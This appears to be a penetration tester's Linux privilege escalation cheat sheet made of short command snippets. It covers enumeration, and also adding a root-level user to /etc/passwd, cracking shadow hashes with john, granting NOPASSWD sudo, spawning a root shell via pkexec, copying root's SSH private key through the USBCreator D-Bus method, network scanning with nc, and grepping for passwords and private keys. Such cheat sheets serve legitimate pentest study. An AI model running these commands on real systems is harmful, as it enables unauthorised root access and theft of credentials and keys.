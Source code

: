```yaml
---
icon: stethoscope
---
```


# Enumeration

{% embed url="https://book.hacktricks.wiki/en/linux-hardening/linux-privilege-escalation-checklist.html" %}

<details>

<summary><mark style="color:purple;"><strong><code>Basic</code></strong></mark></summary>

{% code title="Check user permissions" %}
```bash
sudo -l
```
{% endcode %}

{% code title="Check hostname" %}
```sh
hostname -I
```
{% endcode %}

{% code title="Check the internal network" %}
```sh
ifconfig
```
{% endcode %}

{% code title="User with shells" %}
```sh
grep "sh$" /etc/passwd
```
{% endcode %}

{% code title="Check Ownership by group" %}
```
find / -group management 2>/dev/null
```
{% endcode %}

{% code title="Check processes" %}
```sh
ps auxww
```
{% endcode %}

{% code title="Check mounted devices" %}
```sh
mount
```
{% endcode %}

{% code title="Container processes " lineNumbers="true" %}
```sh
ps auxww | grep docker
ps auxww | grep lxd
```
{% endcode %}

{% code title="Read crontab file" %}
```sh
cat /etc/crontab
```
{% endcode %}

{% code title="Check Services running" %}
```sh
ls /etc/init.d
```
{% endcode %}

{% code title="Check System info" %}
```sh
uname -a
```
{% endcode %}

{% code title="Check groups file" %}
```powershell
cat /etc/group
```
{% endcode %}

{% hint style="info" %}
<mark style="color:orange;">**`adm`**</mark> <mark style="color:purple;">group can read log files.</mark>

```sh
cat /var/log
```
{% endhint %}

{% code title="Show listening ports" %}
```sh
netstat -tuln
netstat -tnl
```
{% endcode %}

{% code title="Listen to the localhost" %}
```sh
netstat -an -p tcp
```
{% endcode %}

{% code title="Check binaries with capabilities" %}
```sh
getcap -r / 2>/dev/null
```
{% endcode %}

{% code title="SUID/SETGID binaries" %}
```sh
find / -perm -4000 -or -perm -2000 2>/dev/null
```
{% endcode %}

{% code title=" Traces library function calls" overflow="wrap" %}
```sh
ltrace ProgramName
```
{% endcode %}

{% code title="Search Kernel for Exploits" %}
```sh
searchsploit "Linux Kernel" | grep <version>
```
{% endcode %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>/etc/passwd</code></strong></mark></summary>

{% hint style="info" %}


#### <mark style="color:red;">**`Write Permissions`**</mark>

{% code title="Generate the password hash" overflow="wrap" %}
```sh
openssl passwd -1 tokyo
```
{% endcode %}

{% code title="Add the line " overflow="wrap" %}
```sh
echo 'tokyo:$1$iLayOiAd$8dHGiU.Qvk/uqjnoWzRpm/:0:0:tokyo:/root:/bin/bash' >> passwd
```
{% endcode %}
{% endhint %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>/etc/shadow</code></strong></mark></summary>

{% hint style="info" %}
{% code title="Create the Hash file" overflow="wrap" %}
```sh
echo 'zoe:$y$j9T$Ct0y5TNQ/sv95CFPz510O/$7YtCDOBISfngZeQ3rsDkRcw2XTFDgHBkxDpuhyBLNO1:1002:1002:zoe:/home/zoe:/bin/bash' > shadowHash.txt
```
{% endcode %}

{% code title="Crack the hash" overflow="wrap" %}
```sh
john --wordlist=~/Documents/Wordlists/rockyou.txt shadow.txt --format=crypt
```
{% endcode %}
{% endhint %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>/etc/sudoers</code></strong></mark></summary>

{% hint style="info" %}
{% code title="Try to read it" %}
```sh
cat /etc/sudoers
```
{% endcode %}

* <mark style="color:purple;">If the file is read-only, you need to change its permissions to allow write access:</mark>

```sh
chmod +w /etc/sudoers
```

* <mark style="color:purple;">Add the following line:</mark>

```
yourUser   ALL=(ALL) NOPASSWD: ALL
```

* <mark style="color:purple;">Restore the original file permissions to make it read-only again:</mark>

```sh
chmod 440 /mnt/etc/sudoers
```
{% endhint %}

</details>

<details>

<summary><mark style="color:purple;"><strong><code>Scan the local network</code></strong></mark></summary>

* <mark style="color:purple;">Find one many hosts there are in the network by doing a</mark> <mark style="color:orange;">**`ping sweep`**</mark><mark style="color:purple;">:</mark>

{% code overflow="wrap" %}
```sh
for i in {1..254}; do (ping -c 1 192.168.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
```
{% endcode %}

* <mark style="color:purple;">If</mark> <mark style="color:orange;">**`nc`**</mark> <mark style="color:purple;">is installed can be use to scan for open ports:</mark>

{% code overflow="wrap" %}
```sh
nc -zv 192.168.0.1 1-65535 2>&1 | grep -v refused | tee scan
```
{% endcode %}

{% code title="UDP scan" overflow="wrap" %}
```sh
nc -uzv 192.168.0.1 1-65535 2>&1 | grep -v refused
```
{% endcode %}

#### [<kbd><mark style="color:orange;">Nmap Binary<mark style="color:orange;"></kbd>](https://github.com/andrew-d/static-binaries/tree/master/binaries/linux/x86_64)

</details>

<details>

<summary><mark style="color:purple;"><strong><code>Credential Hunting</code></strong></mark></summary>

{% hint style="info" %}


***

#### <mark style="color:orange;">`grep`</mark>

* <mark style="color:purple;">Search for the string</mark> <mark style="color:orange;">**`pass`**</mark> <mark style="color:purple;">(case-insensitive) in all files and directories recursively:</mark>

{% code overflow="wrap" %}
```sh
grep -iR "pass" * 2>/dev/null
```
{% endcode %}

* <mark style="color:purple;">Search for</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**the string**</mark>**&#x20;**<mark style="color:orange;">**`password`**</mark> <mark style="color:purple;">in files with double extension, recursively:</mark>

```sh
grep password .*.* -r 2>/dev/null
```

* <mark style="color:purple;">Search for</mark> <mark style="color:orange;">**`ssh`**</mark> <mark style="color:purple;">keys recursively from the current directory you are in:</mark>

{% code overflow="wrap" %}
```sh
grep -iR -E "(ssh-(rsa|ed25519|dss|ecdsa|rsa1)[ ]+[A-Za-z0-9+/=]+|-----BEGIN [A-Z ]+PRIVATE KEY-----)" * 2>/dev/null
```
{% endcode %}

* <mark style="color:purple;">Is also possible to look for</mark> <mark style="color:orange;">**`hashes`**</mark> <mark style="color:purple;">by using regex to look for the hash length:</mark>

{% code title="MD5 hashes" %}
```sh
grep -aPo '[a-fA-F0-9]{32}' /DESIRED/PATH
```
{% endcode %}

{% code title="SHA-1" %}
```sh
grep -aPo '[a-fA-F0-9]{40}' /DESIRED/PATH
```
{% endcode %}

{% code title="SHA-256" %}
```sh
grep -aPo '[a-fA-F0-9]{64}' /DESIRED/PATH
```
{% endcode %}

{% code title="SHA-512" %}
```sh
grep -aPo '[a-fA-F0-9]{128}' /DESIRED/PATH
```
{% endcode %}
{% endhint %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>Polkit</code></strong></mark></summary>

{% code title="Check policy" overflow="wrap" %}
```sh
cat /etc/polkit-1/localauthority.conf.d
```
{% endcode %}

{% code title="Become root" overflow="wrap" %}
```sh
pkexec "/bin/sh"
```
{% endcode %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>USBCreator</code></strong></mark></summary>

* <mark style="color:purple;">Allows to over write files with</mark> <mark style="color:orange;">**`sudo`**</mark> <mark style="color:purple;">permissions:</mark>

{% code title="Copy root private key" overflow="wrap" %}
```sh
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /tmp/id_rsa true
```
{% endcode %}

</details>
